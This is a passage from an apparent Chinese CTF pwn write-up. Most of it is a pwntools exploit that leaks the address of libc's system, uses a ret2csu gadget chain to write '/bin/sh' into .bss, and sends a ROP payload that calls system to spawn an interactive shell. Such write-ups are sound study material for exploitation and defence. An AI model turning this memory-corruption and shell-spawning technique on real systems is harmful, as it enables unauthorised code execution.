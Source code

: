 ```python
system_addr = d.lookup("system", "libc")

print("----------- leak addr --------------")
print("system addr:", hex(system_addr))

print("----------- write /bin/sh to bss --------------")

str_addr = 0x601060
pop6_addr = 0x40075a   
movcall_addr = 0x400740

# --------------------- pop6_addr ---------------------
# pop     rbx    --> 0
# pop     rbp    --> 1
# pop     r12    --> func_addr
# pop     r13    --> rdx
# pop     r14    --> rsi
# pop     r15    --> rdi
# retn

# -------------------- movcall_addr -------------------
# mov     rdx, r13
# mov     rsi, r14
# mov     edi, r15d
# call    qword ptr [r12+rbx*8]

read_got = elf.got["read"]
payload = cyclic(0x40 + 0x8)
payload += p64(pop6_addr) + p64(0) + p64(1) + p64(read_got) + p64(8) + p64(str_addr) + p64(0) + p64(movcall_addr)
payload += cyclic(56)
payload += p64(main_addr)
payload =  payload.ljust(200, b'6')
p.send(payload)
p.recvuntil(b"bye~\n")
p.send("/bin/sh\x00")

print("----------- get shell --------------")
payload = cyclic(0x40 + 0x8)
payload += p64(pop_rdi_addr) + p64(str_addr) + p64(system_addr)
payload += p64(main_addr)
payload =  payload.ljust(200, b'6')
p.send(payload)
p.interactive()
```

#### 运行结果

![image-20231118215557535](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118215557535.png)

## 参考

